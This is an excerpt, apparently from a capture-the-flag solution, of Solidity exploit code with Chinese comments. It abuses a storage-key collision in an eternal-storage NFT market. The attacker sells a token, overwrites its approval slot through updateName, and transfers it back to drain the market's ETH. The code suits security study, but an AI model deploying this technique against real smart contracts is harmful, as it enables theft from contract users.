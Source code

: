 ```solidity
        // 3.approve token
        /*
            tokenId_0.name:token_0
            tokenId_0.owner:address(this)
            tokenId_0.approval:market               tokenId_1.name
            tokenId_0.metadata:address(this)        tokenId_1.owner
                                                    tokenId_1.approval
                                                    tokenId_1.metadata
         */
        // market: 100ETH + 50ETH
        token.approve(token_0, address(market));

        // 4.卖出该token_0, tokenId为token_0
        /*
            tokenId_0.name:token_0
            tokenId_0.owner:market
            tokenId_0.approval:0                    tokenId_1.name
            tokenId_0.metadata:address(this)        tokenId_1.owner
                                                    tokenId_1.approval
                                                    tokenId_1.metadata
         */
        // market: 100ETH's fee + 50ETH
        console.log("3.market sell token0:",address(market).balance);
        market.sellCollectible(token_0);

        // 5.get token_1
        /*
            tokenId_0.name:token_0
            tokenId_0.owner:market
            tokenId_0.approval:0                    tokenId_1.name
            tokenId_0.metadata:address(this)        tokenId_1.owner
                                                    tokenId_1.approval
                                                    tokenId_1.metadata
         */
        // market: 100ETH's fee + 50ETH
        bytes32 token_1 = bytes32(uint256(token_0)+2);

        // 6.updateName->approval
        /*
            tokenId_0.name:token_0
            tokenId_0.owner:market
            tokenId_0.approval:0                    tokenId_1.name:address(this)
            tokenId_0.metadata:address(this)        tokenId_1.owner
                                                    tokenId_1.approval
                                                    tokenId_1.metadata
         */
        // 注意，这里tokenId_1是address，因此可以直接调用存储合约的更新名字方法
        // market: 100ETH's fee + 50ETH
        eternalStorage.updateName(token_1, bytes32(uint256(address(this))));

        // 7.transferFrom
        /*
            tokenId_0.name:token_0
            tokenId_0.owner:address(this)
            tokenId_0.approval:0                    tokenId_1.name:address(this)
            tokenId_0.metadata:address(this)        tokenId_1.owner
                                                    tokenId_1.approval
                                                    tokenId_1.metadata
         */
        // 注意，tokenId_0的approval被重新赋值为address(this)，因此我们有权转移
        // market: 100ETH's fee + 50ETH
        token.transferFrom(token_0, address(market), address(this));

```